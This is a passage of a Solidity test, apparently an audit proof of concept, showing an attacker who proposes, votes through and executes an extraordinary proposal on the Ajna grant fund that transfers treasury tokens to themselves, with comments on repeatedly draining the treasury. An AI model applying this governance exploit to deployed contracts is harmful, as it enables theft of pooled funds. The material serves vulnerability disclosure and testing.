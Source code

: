 ```
      targets2[0] = address(_token);

      // generate proposal values
      uint256[] memory values2 = new uint256[](1);
      values2[0] = 0;

      // generate proposal calldata
      bytes[] memory calldatas2 = new bytes[](1);
      calldatas2[0] = abi.encodeWithSignature(
        "transfer(address,uint256)",
        _attacker,
        tokensRequestedParam2
      );

      // create and submit proposal
      TestProposalExtraordinary memory testProposal2 = _createProposalExtraordinary(
        _grantFund,
        _attacker,
        endBlockParam2,
        targets2,
        values2,
        calldatas2,
        "Thanks for proposal 1, now I will drain the treasury"
      );

      // Attacker has 535M of voting power which is ~ 62.94% of Non-Treasury Tokens
      uint256 attackerVotingPowerForEP2 = _grantFund.getVotesExtraordinary(_attacker, testProposal2.proposalId);
      assertEq(attackerVotingPowerForEP2, 535_000_000 * 1e18);

       changePrank(_attacker);
      _grantFund.voteExtraordinary(testProposal2.proposalId);

      // Attacher succeed
      IFunding.ProposalState proposalState2 = _grantFund.state(testProposal2.proposalId);
      assertEq(uint8(proposalState2), uint8(IFunding.ProposalState.Succeeded));

      // execute proposal
      _grantFund.executeExtraordinary(targets2, values2, calldatas2, keccak256(bytes(testProposal2.description)));

      // Attacker balance is now 602.5M
      assertEq(_token.balanceOf(_attacker), 602_500_000 * 1e18);

      // The attacker can continue requesting (1- MiniumThreshold)% of the treasury until threshold becomes 100%.
    }

    function _delegateToDelegatees(IAjnaToken token_, address delegator_, address delegatee_) internal {
        changePrank(delegator_);
        token_.delegate(delegatee_);
    }

    function _delegateTo(IAjnaToken token_, address[] memory delegators_, address[] memory delegatees_) internal {
        for (uint256 i = 0; i < delegators_.length; ++i) {
            _delegateToDelegatees(token_, delegators_[i], delegatees_[i]);
        }
    }
}
```
